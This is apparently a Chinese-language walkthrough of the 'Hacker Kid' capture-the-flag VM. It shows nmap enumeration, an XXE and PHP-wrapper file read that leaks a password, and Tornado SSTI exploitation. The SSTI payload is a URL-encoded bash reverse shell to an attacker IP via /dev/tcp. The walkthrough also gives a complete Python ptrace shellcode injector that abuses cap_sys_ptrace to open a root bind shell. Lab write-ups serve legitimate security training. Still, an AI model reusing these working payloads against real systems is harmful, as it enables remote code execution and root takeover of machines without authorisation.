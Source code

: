
## 端口扫描
```bash
┌──(fforu㉿fforu)-[~/workspace]
└─$ sudo nmap -sT -sCV -O -p53,80,9999 192.168.1.112
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-15 16:29 CST
Nmap scan report for 192.168.1.112
Host is up (0.00094s latency).

PORT     STATE SERVICE VERSION
53/tcp   open  domain  ISC BIND 9.16.1 (Ubuntu Linux)
| dns-nsid:
|_  bind.version: 9.16.1-Ubuntu
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Notorious Kid : A Hacker
9999/tcp open  http    Tornado httpd 6.1
| http-title: Please Log In
|_Requested resource was /login?next=%2F
|_http-server-header: TornadoServer/6.1
MAC Address: 08:00:27:85:7B:E8 (Oracle VirtualBox virtual NIC)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: WAP
Running: Linux 2.4.X|2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.4.20 cpe:/o:linux:linux_kernel:2.6.22
OS details: Tomato 1.28 (Linux 2.4.20), Tomato firmware (Linux 2.6.22)
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```




## web渗透

端口9999有一个登录页面
![](images/2024-04-15-16-42-47.png)
先不看，没有信息
![](images/2024-04-15-16-43-38.png)
在页面源代码处提示一个参数
尝试了rce和文件包含，都没有用
那么根据意译，页码
去跑一下num
在?page_no=21得到一些信息
![](images/2024-04-15-16-40-42.png)
```bash
Okay so you want me to speak something ?
I am a hacker kid not a dumb hacker. So i created some subdomains to return back on the server whenever i want!!
Out of my many homes...one such home..one such home for me : hackers.blackhat.local
```
得到一个域名信息
hackers.blackhat.local
修改hosts文件，将ip与该域名绑定
这里写一点题外话
wsl中不用修改hosts文件，改了也没用
修改windows的hosts后使用sudo就可以访问了

根据首页提示的dig
去dig一下这个网站
>dig是一个在Unix和类Unix系统上使用的DNS（域名系统）工具。它的全称是"domain information groper"，它能够查询DNS服务器，获取域名相关的信息，如域名对应的IP地址、MX记录（邮件交换记录）、SOA记录（授权记录）等。dig命令可以用于诊断网络问题，验证DNS配置，以及获取域名相关的信息。
![](images/2024-04-15-20-41-16.png)
得到一个新的域名` hackerkid.blackhat.local`
![](images/2024-04-15-20-57-58.png)
在注册账号时，邮箱格式一直出错
抓包发现xml
![](images/2024-04-15-20-56-05.png)
xxe尝试得到/etc/passwd
发现用户名saket
用hydra爆破了一下，没有任何结果

看题解吧
![](images/2024-04-15-21-17-02.png)
php伪协议得到bashrc文件
经过了base64编码，解码即可
```bash
username="admin"
password="Saket!#$%@!!"
```
得到如上信息
来到之前发现的9999端口
一个登录框，按照上面的信息登录失败
实际的用户名是saket密码即是上面那个
![](images/2024-04-15-21-28-49.png)
登陆进入后得到一个web页面
提示要输入name
用下saket作为目录试下
![](images/2024-04-15-21-30-04.png)
python??
考虑到ssti的可能性
![](images/2024-04-15-21-30-57.png)
存在ssti
payload
`http://hackers.blackhat.local:9999/?name=%7B%25+import+os+%25%7D%7B%7Bos%2Esystem%28%27bash+%2Dc+%22bash+%2Di+%26%3E+%2Fdev%2Ftcp%2F192%2E168%2E1%2E105%2F2333+0%3E%261%22%27%29%7D%7D`

## 提权

![](images/2024-04-16-13-36-58.png)
拿到shell后信息收集
看到bash历史命令如上，有几个敏感信息，但是还不知道怎么利用
zipped_apk.zip找不到 SaketApp.apk能找到，但是好像就是一个二进制文件，不知道怎么利用
比较感兴趣的是nc连了5600端口
这里用python2运行了一个py脚本
收集一下python2信息
```bash
saket@ubuntu:/tmp$ ./linpeas.sh | grep python2
./linpeas.sh | grep python2
. . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . uniq: write error: Broken pipe
uniq: write error: Broken pipe
cat: write error: Broken pipe
cat: write error: Broken pipe
cat: write error: Broken pipe
grep: /etc/cloud/cloud.cfg: No such file or directory
./linpeas.sh: 2471: curl: not found
saket      37903  0.0  0.1  24516  7448 ?        S    22:07   0:00              _ python2 -c import pty;pty.spawn('/bin/bash')
saket      37970  0.0  0.0  17672   724 pts/0    S+   22:31   0:00                              _ grep --color=auto python2
sed: -e expression #1, char 0: no previous regular expression
Sorry, try again.
/usr/bin/python2
/usr/bin/python2.7
/usr/bin/python2.7 = cap_sys_ptrace+ep
./linpeas.sh: 5588: printf: %t: invalid directive
./linpeas.sh: 5588: printf: %t: invalid directive
```

/usr/bin/python2.7 = cap_sys_ptrace+ep

```python
import ctypes
import sys
import struct

# Macros defined in <sys/ptrace.h>
# https://code.woboq.org/qt5/include/sys/ptrace.h.html
PTRACE_POKETEXT = 4
PTRACE_GETREGS = 12
PTRACE_SETREGS = 13
PTRACE_ATTACH = 16
PTRACE_DETACH = 17

# Structure defined in <sys/user.h>
# https://code.woboq.org/qt5/include/sys/user.h.html#user_regs_struct
class user_regs_struct(ctypes.Structure):
    _fields_ = [
        ("r15", ctypes.c_ulonglong),
        ("r14", ctypes.c_ulonglong),
        ("r13", ctypes.c_ulonglong),
        ("r12", ctypes.c_ulonglong),
        ("rbp", ctypes.c_ulonglong),
        ("rbx", ctypes.c_ulonglong),
        ("r11", ctypes.c_ulonglong),
        ("r10", ctypes.c_ulonglong),
        ("r9", ctypes.c_ulonglong),
        ("r8", ctypes.c_ulonglong),
        ("rax", ctypes.c_ulonglong),
        ("rcx", ctypes.c_ulonglong),
        ("rdx", ctypes.c_ulonglong),
        ("rsi", ctypes.c_ulonglong),
        ("rdi", ctypes.c_ulonglong),
        ("orig_rax", ctypes.c_ulonglong),
        ("rip", ctypes.c_ulonglong),
        ("cs", ctypes.c_ulonglong),
        ("eflags", ctypes.c_ulonglong),
        ("rsp", ctypes.c_ulonglong),
        ("ss", ctypes.c_ulonglong),
        ("fs_base", ctypes.c_ulonglong),
        ("gs_base", ctypes.c_ulonglong),
        ("ds", ctypes.c_ulonglong),
        ("es", ctypes.c_ulonglong),
        ("fs", ctypes.c_ulonglong),
        ("gs", ctypes.c_ulonglong),
    ]

libc = ctypes.CDLL("libc.so.6")

pid = int(sys.argv[1])

# Define argument type and response type.
libc.ptrace.argtypes = [ctypes.c_uint64, ctypes.c_uint64, ctypes.c_void_p, ctypes.c_void_p]
libc.ptrace.restype = ctypes.c_uint64

# Attach to the process
libc.ptrace(PTRACE_ATTACH, pid, None, None)
registers = user_regs_struct()

# Retrieve the value stored in registers
libc.ptrace(PTRACE_GETREGS, pid, None, ctypes.byref(registers))
print("Instruction Pointer: " + hex(registers.rip))
print("Injecting Shellcode at: " + hex(registers.rip))

# Shell code copied from exploit db. https://github.com/0x00pf/0x00sec_code/blob/master/mem_inject/infect.c
shellcode = "\x48\x31\xc0\x48\x31\xd2\x48\x31\xf6\xff\xc6\x6a\x29\x58\x6a\x02\x5f\x0f\x05\x48\x97\x6a\x02\x66\xc7\x44\x24\x02\x15\xe0\x54\x5e\x52\x6a\x31\x58\x6a\x10\x5a\x0f\x05\x5e\x6a\x32\x58\x0f\x05\x6a\x2b\x58\x0f\x05\x48\x97\x6a\x03\x5e\xff\xce\xb0\x21\x0f\x05\x75\xf8\xf7\xe6\x52\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x8d\x3c\x24\xb0\x3b\x0f\x05"

# Inject the shellcode into the running process byte by byte.
for i in range(0, len(shellcode), 4):
    # Convert the byte to little endian.
    shellcode_byte_int = int(shellcode[i:4+i].encode('hex'), 16)
    shellcode_byte_little_endian = struct.pack("<I", shellcode_byte_int).rstrip('\x00').encode('hex')
    shellcode_byte = int(shellcode_byte_little_endian, 16)

    # Inject the byte.
    libc.ptrace(PTRACE_POKETEXT, pid, ctypes.c_void_p(registers.rip+i), shellcode_byte)

print("Shellcode Injected!!")

# Modify the instruction pointer
registers.rip = registers.rip + 2

# Set the registers
libc.ptrace(PTRACE_SETREGS, pid, None, ctypes.byref(registers))
print("Final Instruction Pointer: " + hex(registers.rip))

# Detach from the process.
libc.ptrace(PTRACE_DETACH, pid, None, None)
```

这里提权用到的就是上面的shellcode
滥用 SYS_PTRACE 导致的漏洞

`https://blog.pentesteracademy.com/privilege-escalation-by-abusing-sys-ptrace-linux-capability-f6e6ad2a59cc`
`https://book.hacktricks.xyz/v/cn/linux-hardening/privilege-escalation/linux-capabilities#cap_sys_ptrace`

运行exp开启5600端口
nc连接即可root